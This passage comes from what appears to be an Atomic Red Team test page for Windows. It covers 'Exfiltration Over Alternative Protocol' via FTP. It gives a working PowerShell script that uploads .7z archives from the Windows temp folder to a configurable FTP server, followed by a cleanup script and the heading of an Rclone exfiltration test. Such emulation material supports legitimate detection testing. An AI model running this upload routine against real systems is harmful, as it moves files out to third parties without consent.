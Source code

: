 **Supported Platforms:** Windows


**auto_generated_guid:** 57799bc2-ad1e-4130-a793-fb0c385130ba





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ftp_server | FTP Server address | string | 127.0.0.1|
| username | Username for FTP server login | string | |
| password | Password for FTP server login | string | |


#### Attack Commands: Run with `powershell`! 


```powershell
$Dir_to_copy = "$env:windir\temp"
$ftp = "ftp://#{ftp_server}/"
$web_client = New-Object System.Net.WebClient
$web_client.Credentials = New-Object System.Net.NetworkCredential('#{username}', '#{password}')
if (test-connection -count 1 -computername "#{ftp_server}" -quiet)
{foreach($file in (dir $Dir_to_copy "*.7z"))
{echo "Uploading $file..."
$uri = New-Object System.Uri($ftp+$file.name)
$web_client.UploadFile($uri, $file.FullName)}}
else
{echo "FTP Server Unreachable. Please verify the server address in input args and try again."}
```

#### Cleanup Commands:
```powershell
$ftp = "ftp://#{ftp_server}/"
try {foreach ($file in (dir "$env:windir\temp" "*.7z"))
{$uri = New-Object System.Uri($ftp+$file.name)
 $ftp_del = [System.Net.FtpWebRequest]::create($uri)
 $ftp_del.Credentials = New-Object System.Net.NetworkCredential('#{username}','#{password}')
 $ftp_del.Method = [System.Net.WebRequestMethods+Ftp]::DeleteFile
 $ftp_del.GetResponse()}} catch{}
```





<br/>
<br/>

## Atomic Test #7 - Exfiltration Over Alternative Protocol - FTP - Rclone
Rclone may be used by an adversary to exfiltrate data to a publicly hosted FTP server.
[Reference](https://thedfirreport.com/2021/03/29/sodinokibi-aka-revil-ransomware/)
